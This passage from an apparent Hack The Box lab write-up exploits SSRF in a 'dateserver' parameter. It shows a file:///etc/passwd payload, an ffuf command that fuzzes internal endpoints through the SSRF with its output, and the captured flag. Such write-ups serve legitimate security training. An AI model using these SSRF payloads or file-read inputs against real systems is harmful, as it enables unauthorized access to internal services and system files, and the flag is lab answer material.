 ```
file:///etc/passwd
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250212121949.png)

This means SSRF is possible, let's try to enumerate another endpoints using ffuf in the following way:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

We get the following:

```
smoothment@htb[/htb]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80" -ic -c -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.201.127/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Server at dateserver.htb Port 80
________________________________________________

admin                   [Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 114ms]
availability            [Status: 200, Size: 9, Words: 1, Lines: 1, Duration: 107ms]
```

We found two endpoints `admin` and `availability`, let's try to read the `admin.php` endpoint:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212122630.png)

Got the flag:

```
HTB{61ea58507c2b9da30465b9582d6782a1}
```
